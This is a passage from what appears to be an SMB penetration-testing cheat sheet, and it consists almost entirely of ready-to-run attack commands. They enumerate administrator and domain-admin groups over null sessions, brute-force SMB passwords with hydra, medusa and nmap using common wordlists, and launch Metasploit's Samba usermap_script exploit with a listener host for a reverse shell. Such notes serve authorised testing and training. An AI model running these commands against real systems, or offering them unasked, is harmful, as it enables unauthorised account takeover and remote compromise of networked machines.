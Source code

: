 	net rpc group members "Administrators" -I $IP -U%
	
	echo -e "\n########## Enumerating Domain Admins ##########"
	
	net rpc group members "Domain Admins" -I $IP -U%
	
	echo -e "\n########## Enumerating groups ##########"
	
	nmap -Pn -T4 -sS -p139,445 --script=smb-enum-groups $IP
	
	echo -e "\n########## Enumerating shares ##########"
	
	nmap -Pn -T4 -sS -p139,445 --script=smb-enum-shares $IP
	
	echo -e "\n########## Bruteforcing all users with 'password', blank and username as password"
	
	hydra -e ns -L /tmp/$IP-users.txt -p password $IP smb -t 1
	
	rm /tmp/$IP-users.txt

## Brute force login

	medusa -h $ip -u userhere -P /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt -M smbnt
	
	nmap -p445 --script smb-brute --script-args userdb=userfilehere,passdb=/usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt $ip -vvvv

## Null Session

### Null session and extract information.

	nbtscan -r $ip

### Version

	msfconsole; use auxiliary/scanner/smb/smb_version; set RHOSTS $ip; run

### MultiExploit

	msfconsole; use exploit/multi/samba/usermap_script; set lhost 10.10.14.x; set rhost $ip; run


## Bruteforce password

	hydra -l administrator -P /usr/share/wordlists/rockyou.txt -t 1 $ip smb

## Connection

	smbclient -L 192.168.1.102
	
	smbclient //192.168.1.106/tmp
	
	smbclient \\\\192.168.1.105\\ipc$ -U john
	
	smbclient //192.168.1.105/ipc$ -U john

